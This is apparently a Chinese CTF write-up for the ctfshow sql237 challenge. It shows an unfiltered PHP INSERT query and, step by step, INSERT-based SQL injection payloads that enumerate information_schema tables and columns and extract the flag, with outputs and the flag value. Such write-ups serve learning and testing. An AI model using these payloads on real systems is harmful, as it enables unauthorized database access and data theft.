 # ctfshow-sql237



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
```



 返回逻辑 

```
  //无过滤

```





```mysql
insert注入，没任何过滤，直接闭合单引号，然后自己构造查询语句，把查询的结果insert到表里

注入点api/insert.php


username=1',database())#&password=123456
倒序查找内容
ctfshow_web




username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#&password=1

	
banlist,ctfshow_user,flag


# username=3',(select group_concat(column_name) from information_schema.columns where table_name='flag'));-- A&password=1


	
id,flagass23s3,info
	


username=1',(select (flagass23s3) from flag))#&password=1


	
ctfshow{0c9fff73-e5ce-42c8-90ab-681515e9d387}



```























